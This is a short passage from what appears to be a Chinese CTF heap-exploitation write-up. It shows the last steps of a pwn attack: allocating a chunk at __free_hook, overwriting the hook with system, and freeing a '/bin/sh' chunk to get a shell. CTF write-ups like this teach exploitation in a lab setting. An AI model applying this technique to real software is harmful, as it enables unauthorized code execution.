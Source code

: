 [![](assets/1708654729-ee92a58ba8cac887aa86634eae4bc3b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103958-813b5048-d062-1.png)  
把 free\_hook 的 chunk 申请一下

```plain
add(10,0x88)
add(11,0x88)
```

[![](assets/1708654729-eeab698eb87382fde08bb9bdd556ce9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104011-889e00ec-d062-1.png)  
改 hook 为 system

```plain
edit(11,p64(system))
```

[![](assets/1708654729-d1c4aa8798918b6cb469f30abeda74e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104024-908c97e6-d062-1.png)

```plain
delete(8)#system("/bin/sh")
```

getshell

[![](assets/1708654729-44d1a1c25955cd19c5fd036921f5e7b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104038-98af7196-d062-1.png)
